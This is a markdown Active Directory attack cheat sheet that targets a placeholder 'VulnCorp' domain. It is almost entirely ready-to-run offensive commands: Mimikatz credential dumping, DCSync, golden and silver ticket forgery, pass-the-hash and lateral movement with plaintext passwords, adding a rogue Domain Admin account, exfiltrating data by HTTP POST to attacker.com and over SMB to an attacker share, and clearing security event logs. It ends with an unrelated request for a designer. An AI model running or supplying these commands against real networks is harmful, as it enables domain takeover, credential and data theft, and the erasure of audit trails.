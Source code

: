# Active Directory Cheatsheet



  1. [Initial Enumeration](#initial-enumeration)
  2. [Domain Enumeration](#domain-enumeration)
  3. [Lateral Movement](#lateral-movement)
  4. [Credential Dumping](#credential-dumping)
  5. [Persistence Techniques](#persistence-techniques)
  6. [Privilege Escalation](#privilege-escalation)
  7. [Data Exfiltration](#data-exfiltration)
  8. [Cleanup](#cleanup)


---

## Initial Enumeration

### Basic System Info
```powershell
systeminfo
hostname
whoami /all
```

### Network Information
```powershell
ipconfig /all
route print
arp -a
nslookup VulnCorp.local
```

### User Context
```powershell
net user %username% /domain
klist
```

### Domain Information
```powershell
net view /domain
net view /domain:VulnCorp
nltest /domain_trusts
Get-ADDomain
```

---

## Domain Enumeration

### Users and Groups
```powershell
# All domain users
net user /domain
Get-ADUser -Filter * | Select-Object SamAccountName,Enabled

# Privileged groups
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
Get-ADGroupMember -Identity "Domain Admins" -Recursive

# User details
Get-ADUser -Identity username -Properties *
```

### Computers and Servers
```powershell
net group "Domain Computers" /domain
Get-ADComputer -Filter * | Select-Object Name,OperatingSystem
Get-ADDomainController -Discover -Service PrimaryDC
```

### Password Policy
```powershell
net accounts /domain
Get-ADDefaultDomainPasswordPolicy
```

### GPO Enumeration
```powershell
Get-GPO -All
Get-GPOReport -All -ReportType Html -Path C:\temp\GPOReport.html
```

---

## Lateral Movement

### PSExec
```powershell
psexec \\target-pc -u VulnCorp\admin -p Password123 cmd.exe
```

### WMI
```powershell
wmic /node:target-pc /user:VulnCorp\admin /password:Password123 process call create "cmd.exe"
```

### Scheduled Tasks
```powershell
schtasks /create /s target-pc /u VulnCorp\admin /p Password123 /tn "TaskName" /tr "cmd.exe" /sc once /st 00:00
schtasks /run /s target-pc /u VulnCorp\admin /p Password123 /tn "TaskName"
```

### Pass-the-Hash
```powershell
mimikatz # sekurlsa::pth /user:admin /domain:VulnCorp.local /ntlm:HASHHERE /run:cmd.exe
```

---

## Credential Dumping

### Mimikatz
```powershell
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
```

### DCSync
```powershell
lsadump::dcsync /domain:VulnCorp.local /user:Administrator
```

### Registry Hives
```powershell
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
```

### LSA Secrets
```powershell
Invoke-Mimikatz -Command '"lsadump::secrets"'
```

---

## Persistence Techniques

### Golden Ticket
```powershell
kerberos::golden /user:fakeadmin /domain:VulnCorp.local /sid:S-1-5-21-... /krbtgt:HASH /ptt
```

### Silver Ticket
```powershell
kerberos::golden /user:admin /domain:VulnCorp.local /sid:S-1-5-21-... /target:dc01.VulnCorp.local /service:cifs /rc4:HASH /ptt
```

### Account Creation
```powershell
net user hacker P@ssw0rd123 /add /domain
net group "Domain Admins" hacker /add /domain
```

---

## Privilege Escalation

### Service Enumeration
```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\"
```

### AlwaysInstallElevated
```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Writable Paths
```powershell
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

---

## Data Exfiltration

### Compression
```powershell
Compress-Archive -Path C:\sensitive\* -DestinationPath C:\temp\data.zip
```

### Web Transfer
```powershell
Invoke-WebRequest -Uri http://attacker.com/exfil -Method POST -InFile C:\temp\data.zip
```

### SMB Transfer
```powershell
net use x: \\attacker-ip\share /user:attacker-user password
copy C:\data\* x:\
```

---

## Cleanup

### Log Clearing
```powershell
wevtutil cl system
wevtutil cl security
```

### Artifact Removal
```powershell
schtasks /delete /tn "Persistence" /f
net user hacker /delete /domain
```

# I need better designer than chatGPT, If you can help me then help me